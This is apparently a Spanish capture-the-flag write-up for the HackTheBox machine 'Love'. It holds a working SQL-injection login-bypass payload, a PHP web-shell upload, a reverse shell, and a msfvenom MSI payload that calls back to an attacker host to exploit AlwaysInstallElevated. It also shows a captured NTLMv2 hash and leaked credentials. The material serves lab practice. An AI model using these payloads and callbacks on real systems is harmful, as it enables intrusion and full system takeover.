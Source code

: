 10.10.10.239 - Love
-------------------

# Parte 1 - Reconocimiento

Tenemos abiertos los puertos: 80 (http) ,135(rpc),139(smb tambien),443,445(smb),3306(sql),5000,5040,5985,5986,7680

### Nmap -> escaneo de servicios

```sudo nmap -sCV -T5 -p443,445,3306,5000,5040,5985,5986,7680 10.10.10.239```
Las conclusiones que nos da Nmap son estas:
- El puerto 443 da error 403 Forbidden, pero es un Apache 2.4.46 con PHP 7.3.27.
- Tenemos el dominio staging.love.htb y la empresa se llama *ValentineCorp*
- Por smb tenemos que el sistema se llama LOVE y el Workgroup es WORKGROUP
- Puerto 5000, lo mismo que en el 443, error 403 y Apache 2.4.46/PHP 7.3.27.
 

### Puerto 80:
└─$ whatweb http://10.10.10.239
http://10.10.10.239 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], OpenSSL/[1.1.1j] PHP[7.3.27], IP[10.10.10.239], JQuery, PasswordField[password], Script, Title[Voting System using PHP]

### Puerto 445 y 139:

No podemos acceder sin creds a ninguno.
```console
└─$ smbclient -L 10.10.10.239 -N 
session setup failed: NT_STATUS_ACCESS_DENIED
└─$ rpcclient -U "" 10.10.10.239 -N
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```
### Puerto 443 
La web da forbidden, pero al tener ssl ```openssl s_client -connect love.htb:443``` obtenemos el mail de 
roy@love.htb.

```rpcclient -U "roy" 10.10.10.239 -N # NT_STATUS_LOGON_FAILURE```
Pero intentar bruteforcear la contraseña no da resultado: ```crackmapexec smb 10.10.10.239 -u "roy" -p /usr/share/wordlists/rockyou.txt```

-------------------------

Parte 2: Reconocimiento web.

Como esto bien decia, la web http://10.10.10.239 / http://love.htb tiene el formulario este de "php voting system"
Peticion -> POST a /login.php voter=123&password=123&login= PHPSESSID="8uonobi5kr3p0cvm2hir2o2g63"
Nos ha dado que "Cannot find voter with the ID" cosa que me incita a fuzzear este mismo.

```console
└─$ hydra -L ./numbers.txt -p test love.htb https-post-form "/login.php:voter=^USER^&password=^PASS^:F=Cannot find voter with the ID" 
```
Pero tras un rato nada.

En la seccion de comentarios hay ```<!-- WARNING: Respond.js doesn't work if you view the page via file:// -->```
Pero en la ruta "/js/Respond.js"

Como no he podido fuzzear el Voting System (y para la ruta staging tambien), queda buscarle en el searchsploit.
```searchsploit Voting System``` Hay varios para autenticarse mediante SQLI, uno de ellos dice de poner
```admin:' or ''='``` a */admin* pero no dio resultado. En cambio otro mas largo si
```login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -```

Lo del medio que envia parece un formato de hash a juzgar por los "$". 
Una vez en la web del Voting system tenemos que el usaurio se llama "Neovic Devierte" (puede que nos sirva para
los otros servicios).

Hay otro exploit que habla de un file upload en /candidates.php, no esta nada sanitizado, pero si intento subir
algo me da problemas el campo de *Position*. 

En staging.love.htb hay un campo para peticiones.
Si le pido que se la haga a mi servidor me responde

└─$ sudo python3 -m http.server   
[sudo] password for cucuxii:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Oct/2022 10:56:37] "GET / HTTP/1.1" 200 -
10.10.10.239 - - [23/Oct/2022 10:59:11] "GET /shell.php HTTP/1.1" 200 -

Pero el php no lo interpreta. 
Si se lo pido al loscalhost me sale el formulatio del Voting System. Teniamos varias paginas Forbidden.

La web del puerto 443 no me deja verla ```http://127.0.0.1:443 o https://127.0.0.1:443``` Pero la del 5000 si.
Nos dan las creds "admin:@LoveIsInTheAir!!!!" Con el puerto 80 dichas creds nos llevan a la web de antes (que
seguimos teniendo problema con subir el Candidato)

Tampoco nos sirven para el smb ni para admin ni para roy.

En la web aparte de subir Candidatos puedes subir Votantes, ahí no hay ningun campo que nos de problemas.
Subí el cmd.php y en la lista de Votantes me salió la foto (obviamente como es un shell.php no se muestra tal)

¿Pero donde está la backdoor? Como se subió en el campo de *foto*, al darle a *copy image location* 
```http://love.htb/images/shell.php?cmd=whoami```

Como tenemos ejecucion remota de comandos, ahora solo tenemos que ejecutar una reverse shell (y escuchar por netcat). 

La reverse shell seria esta:




```console
└─$ sudo nc -nlvp 443
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```

```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:f61b6d088db119ce592bb4d0a56f709b:010100000000000000718863cde6d8019d6b0265e2c0f8150000000001001000730065006a00720067004f004c006c0003001000730065006a00720067004f004c006c000200100053005200610071005900410051004d000400100053005200610071005900410051004d000700080000718863cde6d80106000400020000000800300030000000000000000000000000200000dc7b78e8b0b71bd6254ed079cc9343e57d00d68f7334579eb372fe74b4607ffe0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000

PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\enumeracion_windows.bat . 
```



Nuestro script nos dice que:
- Usuarios: Administrator, Phoebe
- El always Install elevated está activado

La manera de explotar esto es 
```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=666 -f msi -o reverse.msi
Saved as: reverse.msi
PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\reverse.msi .
msiexec /quiet /qn /i C:\xampp\htdocs\omrs\images\reverse.msi
└─$ sudo nc -nlvp 666
C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

